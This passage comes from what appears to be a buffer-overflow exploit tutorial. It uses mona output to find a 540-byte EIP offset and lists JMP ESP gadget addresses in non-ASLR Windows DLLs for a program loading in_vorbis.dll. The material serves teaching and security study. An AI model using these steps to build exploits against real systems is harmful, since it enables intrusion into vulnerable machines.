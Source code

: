 Examine the EIP and find where in this pattern the offset is:

    EIP 41307341

Nice, 4 unique bytes, just need to find the index within the pattern text and we get the offset.

`mona` again can take care of this grunt work automatically. It will cross examine the data in each register against the pattern text:

    !mona suggest
          
              ---------- Mona command started on 2019-08-10 23:26:41 (v2.0, rev 596) ----------
    0BADF00D  [+] Examining registers
    0BADF00D      EIP contains normal pattern : 0x41307341 (offset 540)
    0BADF00D      ESP (0x00b7ef60) points at offset 560 in normal pattern (length 2439)
    0BADF00D      EDI (0x00b7efb0) points at offset 640 in normal pattern (length 2359)
    0BADF00D      EBP (0x00b7ef74) points at offset 580 in normal pattern (length 2419)

The offset to `EIP` heaven is 540.


**Step 2: Find a trampoline (JMP ESP gadget)**

Now that the specific number of bytes needed to gain control of `EIP` has been identified, need to somehow get the address of our shellcode into the `EIP`. A clever way to accomplish this, with needing to know the specific address to the shellcode in address space (which is always on the move with *ASLR*), is to use a `JMP ESP` trampoline. The idea is, if we can point the `EIP` to an existing `JMP ESP; RET` instruction in the program, control flow will transfer back to the overflowed stack buffer, immediately after the return address value that was crafted.


    !mona jmp -r esp
              
              ---------- Mona command started on 2019-08-10 23:27:42 (v2.0, rev 596) ----------
    0BADF00D  [+] Processing arguments and criteria
    0BADF00D      - Pointer access level : X
    0BADF00D  [+] Generating module info table, hang on...
    0BADF00D      - Processing modules
    0BADF00D      - Done. Let's rock 'n roll.
    0BADF00D  [+] Querying 137 modules
    0BADF00D      - Querying module COMDLG32.dll
    0BADF00D      - Querying module in_vorbis.dll
    ...
    0BADF00D      - Querying module wdmaud.drv
    0BADF00D      - Search complete, processing results
    0BADF00D  [+] Preparing output file 'jmp.txt'
    0BADF00D      - (Re)setting logfile jmp.txt
    0BADF00D  [+] Writing results to jmp.txt
    0BADF00D      - Number of pointers of type 'jmp esp' : 96 
    0BADF00D      - Number of pointers of type 'call esp' : 64 
    0BADF00D      - Number of pointers of type 'push esp # ret ' : 85 
    0BADF00D      - Number of pointers of type 'push esp # ret 0x04' : 2 
    0BADF00D  [+] Results : 
    59A050A3    0x59a050a3 : jmp esp |  {PAGE_EXECUTE_READ} [wmdmlog.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v9.0.1.56 (C:\WINDOWS\system32\wmdmlog.dll)
    77559BFF    0x77559bff : jmp esp |  {PAGE_EXECUTE_READ} [ole32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ole32.dll)
    7755A930    0x7755a930 : jmp esp |  {PAGE_EXECUTE_READ} [ole32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ole32.dll)
    775A996B    0x775a996b : jmp esp |  {PAGE_EXECUTE_READ} [ole32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ole32.dll)
    775C068D    0x775c068d : jmp esp |  {PAGE_EXECUTE_READ} [ole32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\ole32.dll)
    7E429353    0x7e429353 : jmp esp |  {PAGE_EXECUTE_READ} [USER32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\USER32.dll)
    7E4456F7    0x7e4456f7 : jmp esp |  {PAGE_EXECUTE_READ} [USER32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\USER32.dll)
    7E455AF7    0x7e455af7 : jmp esp |  {PAGE_EXECUTE_READ} [USER32.dll] ASLR: False, Rebase: False, SafeSEH: True, OS: True, v5.1.2600.5512 (C:\WINDOWS\system32\USER32.dll)